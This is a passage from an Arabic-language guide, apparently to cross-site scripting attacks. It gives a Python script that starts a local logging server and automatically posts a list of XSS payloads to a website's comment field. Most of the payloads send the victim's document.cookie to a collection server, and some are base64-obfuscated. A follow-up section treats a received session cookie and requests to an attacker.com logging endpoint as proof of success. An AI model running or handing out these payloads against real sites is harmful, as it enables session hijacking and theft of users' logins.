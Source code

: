 #### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع خادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse
  import requests

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<svg onload=eval(atob('YWxlcnQoJ1hTUycp'))>",
      "<img src=x onerror=fetch('http://localhost:8000/log?c='+document.cookie)>",
      "<a href=\"data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4\">Click</a>",
      "\";fetch('http://localhost:8000/log?c='+document.cookie);//",
      "<details open ontoggle=\"fetch('http://localhost:8000/log?c='+document.cookie)\">"
  ]

  target_url = "https://example.com/submit-comment"
  for payload in payloads:
      try:
          response = requests.post(target_url, data={"comment": payload})
          print(f"تم إرسال: {payload}")
      except:
          print(f"فشل إرسال: {payload}")
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يُرسل الحقن إلى نقطة إدخال (مثل حقل تعليق) عبر طلب POST.
  - يسجل البيانات المستلمة في الخادم.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لنقاط إدخال متعددة.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **طلبات الشبكة**: تحقق من الطلبات المرسلة إلى `http://attacker.com/log`.
    - **وحدة التحكم**: تحقق من ظهور تنبيهات أو أخطاء في Console.
    - **تغييرات DOM**: تحقق من إعادة التوجيه أو تعديل الصفحة.
  - مثال: إذا تلقى الخادم `c=sessionid=abc123`، فهذا يؤكد نجاح الحقن.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد النقاط القابلة للاستغلال.
